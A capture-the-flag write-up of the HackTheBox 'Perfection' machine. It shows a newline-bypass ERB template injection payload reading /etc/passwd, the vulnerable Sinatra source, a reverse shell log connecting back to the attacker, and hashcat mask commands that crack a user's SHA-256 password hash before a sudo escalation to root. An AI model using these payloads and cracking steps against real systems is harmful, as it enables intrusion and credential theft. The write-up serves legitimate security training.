







---
tags:
  - hack
  - linux
---
# HackTheBox: [Perfection](https://app.hackthebox.com/machines/Perfection)

> [!tip]- Summary with Spoilers
> This Linux-based Ruby web app presents a command injection opportunity for RCE. Achieving PE is an exercise in using `hashcat` with a customized ruleset.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Wed May 29 09:48:48 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp t
Nmap scan report for t (10.10.11.253)
Host is up (0.098s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

#### 80/tcp-http

```console
http://t [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx, WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)], IP[10.10.11.253], PoweredBy[WEBrick], Ruby[3.0.2], Script, Title[Weighted Grade Calculator], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block]
```

The web service offers a "weighted grade calculator", which will calculate an arbitrarily weighted average of five test scores.


Passing a `'` via Burp triggers a "Malicious input blocked" warning.

```http
category1=a&grade1=90&weight1=20&category2=b&grade2=94&weight2=20&category3=c&grade3=91&weight3=20&category4=d&grade4=89&weight4=20&category5=e&grade5=96&weight5=20'
```



Using `%0a` (newline) allows a bypass of the filter. `category1=a%0a%1` returns an error string `Invalid query parameters: invalid %-encoding (a%0a%1)`, which is a Ruby error.

I try fuzzing for more bad characters.

```console
$ ffuf -w /usr/share/seclists/Fuzzing/Metacharacters.fuzzdb.txt -request req -request-proto http
...
________________________________________________
 :: Method           : POST
 :: URL              : http://t/weighted-grade-calc
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/Metacharacters.fuzzdb.txt
 :: Header           : Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
 :: Header           : Host: t
 :: Header           : Cache-Control: max-age=0
 :: Header           : User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Referer: http://t/weighted-grade
 :: Header           : Accept-Language: en-US,en;q=0.9
 :: Header           : Connection: close
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Origin: http://t
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 :: Data             : category1=aFUZZ&grade1=90&weight1=20&category2=b&grade2=94&weight2=20&category3=c&grade3=91&weight3=20&category4=d&grade4=89&weight4=20&category5=e&grade5=96&weight5=20
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
...
```

And get one that triggers "Internal Server Error":

```console
..%c0%af                [Status: 500, Size: 30, Words: 3, Lines: 1, Duration: 123ms]
```

After some fiddling it's just the `%c0` (`À`) character that triggers the error. Ultimately this approach was a deadend for me.

But, URL-encoding `<%=File.read("/etc/passwd")%>` and sending it after `0x0a` triggers a file inclusion vulnerability:

Request parameters: `category1=a%0a%3c%25%3d%46%69%6c%65%2e%72%65%61%64%28%22%2f%65%74%63%2f%70%61%73%73%77%64%22%29%25%3e&grade1=90&weight1=20&category2=b&grade2=94&weight2=20&category3=c&grade3=91&weight3=20&category4=d&grade4=89&weight4=20&category5=e&grade5=96&weight5=20`

Response:



 I check `/proc/self/environ`:



Unfortunately there's no file `/home/susan/.ssh/id_rsa` to read, so attempting to do so throws a server error.

`/proc/self/cmdline` returns `/usr/bin/ruby/home/susan/ruby_app/main.rb`.

Here's the full code for the web app:

```ruby
require 'sinatra'
require 'erb'
set :show_exceptions, false
configure do
    set :bind, '127.0.0.1'
    set :port, '3000'
end
get '/' do
    index_page = ERB.new(File.read 'views/index.erb')
    response_html = index_page.result(binding)
    return response_html
end
get '/about' do
    about_page = ERB.new(File.read 'views/about.erb')
    about_html = about_page.result(binding)
    return about_html
end
get '/weighted-grade' do
    calculator_page = ERB.new(File.read 'views/weighted_grade.erb')
    calcpage_html = calculator_page.result(binding)
    return calcpage_html
end
post '/weighted-grade-calc' do
    total_weight = params[:weight1].to_i + params[:weight2].to_i + params[:weight3].to_i + params[:weight4].to_i + params[:weight5].to_i
    if total_weight != 100
        @result = "Please reenter! Weights do not add up to 100."
        erb :'weighted_grade_results'
    elsif params[:category1] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category2] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category3] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category4] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category5] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:grade1] =~ /^(?:100|\d{1,2})$/ && params[:grade2] =~ /^(?:100|\d{1,2})$/ && params[:grade3] =~ /^(?:100|\d{1,2})$/ && params[:grade4] =~ /^(?:100|\d{1,2})$/ && params[:grade5] =~ /^(?:100|\d{1,2})$/ && params[:weight1] =~ /^(?:100|\d{1,2})$/ && params[:weight2] =~ /^(?:100|\d{1,2})$/ && params[:weight3] =~ /^(?:100|\d{1,2})$/ && params[:weight4] =~ /^(?:100|\d{1,2})$/ && params[:weight5] =~ /^(?:100|\d{1,2})$/
        @result = ERB.new("Your total grade is <%= ((params[:grade1].to_i * params[:weight1].to_i) + (params[:grade2].to_i * params[:weight2].to_i) + (params[:grade3].to_i * params[:weight3].to_i) + (params[:grade4].to_i * params[:weight4].to_i) + (params[:grade5].to_i * params[:weight5].to_i)) / 100 %>\%<p>" + params[:category1] + ": <%= (params[:grade1].to_i * params[:weight1].to_i) / 100 %>\%</p><p>" + params[:category2] + ": <%= (params[:grade2].to_i * params[:weight2].to_i) / 100 %>\%</p><p>" + params[:category3] + ": <%= (params[:grade3].to_i * params[:weight3].to_i) / 100 %>\%</p><p>" + params[:category4] + ": <%= (params[:grade4].to_i * params[:weight4].to_i) / 100 %>\%</p><p>" + params[:category5] + ": <%= (params[:grade5].to_i * params[:weight5].to_i) / 100 %>\%</p>").result(binding)
        erb :'weighted_grade_results'
    else
        @result = "Malicious input blocked"
        erb :'weighted_grade_results'
    end
end
```

I started thinking that if I could do `File.read()`, maybe I could do `exec()` or `system()`. I tried and broke the app:



I reset the box, and tried again with `IO.binread` technique using a `|` character for command execution:



It works!



## RCE



```console
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.253] 39674
id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
cat $HOME/user.txt
b417f98...
```

## PE

A conspicuous credential file gives up a SHA-256 hash:

```console
susan@perfection:~$ cat Migration/pupilpath_credentials.db
^ableusersusersCREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
a\
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023fsusan@perfection:~$
```

And there's a helpful email explaining the password format:

```console
susan@perfection:~$ cat /var/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students
in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}
Note that all letters of the first name should be convered into lowercase.
Please hit me with updates on the migration when you can. I am currently registering our university with the platform.
- Tina, your delightful student
```

So, this appears to be an exercise in using customized `hashcat` rules.

First, I created a wordlist with exactly one entry, per the email above: `susan_nasus_`

Then I ran `hashcat` in "Hybrd Wordlist + Mask" mode (`-a6`) using a series of masks that append a digit to the end of the word:

```text
$ hashcat -a6 -m 1400 hash perfection.txt ?d ?d?d ?d?d?d ?d?d?d?d ?d?d?d?d?d ?d?d?d?d?d?d ?d?d?d?d?d?d?d ?d?d?d?d?d?d?d?d ?d?d?d?d?d?d?d?d?d
```

There are probably more elegant ways to craft that. It's inefficient such that it will try guesses such as `susan_nasus0000042`, whereas the email seems to indicated that prepended zeroes will _not_ be a part of the randomly generated appended integer, but it worked well enough. After about eight minutes, the password is cracked:

```text
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_[redacted]
```

With the password for `susan`, Sudo grants us root access to the box:

```console
susan@perfection:~$ sudo -l
[sudo] password for susan:
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User susan may run the following commands on perfection:
    (ALL : ALL) ALL
susan@perfection:~$ sudo -i
root@perfection:~# cat /root/root.txt
9bcd1638a...
```

## Open Questions

Unresolved issues encountered while attacking this target.

- The `hashcat` command could probably have been cleaner, something like: `hashcat -a3 -m 1400 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d?d?d?d`
    - What's the optimal approach for this?

## Credits

I used [this writeup from James Jarvis](https://medium.com/@jamesjarviscyber/perfection-hackthebox-walkthrough-management-summary-a493c71355ac) for a hint on the correct Ruby syntax for the command injection.
